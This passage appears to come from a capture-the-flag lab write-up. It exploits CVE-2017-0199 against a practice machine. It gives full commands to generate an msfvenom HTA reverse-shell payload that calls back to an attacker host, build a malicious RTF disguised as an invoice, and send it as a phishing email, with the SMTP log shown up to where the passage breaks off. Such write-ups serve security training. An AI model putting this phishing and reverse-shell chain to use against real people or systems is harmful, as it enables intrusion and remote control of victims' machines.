 To exploit CVE-2017-0199, I’ll get the user will open an malicious RTF file,
which will make an HTTP request for an HTA file. I’ll want that HTA file to
execute code to give me a shell.

### Without Metasploit

#### Generate Documents

First, I’ll use `msfvenom` to generate an HTA file that will give me a reverse
shell:

    
    
    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f hta-psh -o msfv.hta
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of hta-psh file: 6535 bytes
    Saved as: msfv.hta
    

Next, I’ll create an RTF file, using scripts from [this
GitHub](https://github.com/bhdresh/CVE-2017-0199) and the following options:

  * `-M gen` \- generate document
  * `-w invoice.rtf` \- output file name
  * `-u http://10.10.14.3/msfv.hta` \- url to get the hta from
  * `-t rtf` \- create rtf document (as opposed to ppsx)
  * `-x 0` \- disable rtf obfuscation

    
    
    root@kali# python CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.3/msfv.hta -t rtf -x 0
    Generating normal RTF payload.
    
    Generated invoice.rtf successfully
    

#### Send Email / Shell

With the document’s prepped, I’ll start a python http.server to serve the hta
file, a nc listener to catch my shell, and then send the phish. I’ll use
`sendemail` with the following options:

  * `-f` \- from address, can be anything as long as the domain exists
  * `-t` \- to address, `nico@megabank.com`
  * `-u` \- subject
  * `-m` \- body
  * `-a` \- attachment
  * `-s` \- smtp server
  * `-v` \- verbose

    
    
    root@kali# sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s 10.10.10.77 -v
    Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => Connecting to 10.10.10.77:25
    Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => My IP address is: 10.10.14.3
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     220 Mail Service ready
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         EHLO kali
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         MAIL FROM:<0xdf@megabank.com>
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250 OK
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         RCPT TO:<nico@megabank.com>
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250 OK
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         DATA
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     354 OK, send.
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending message body
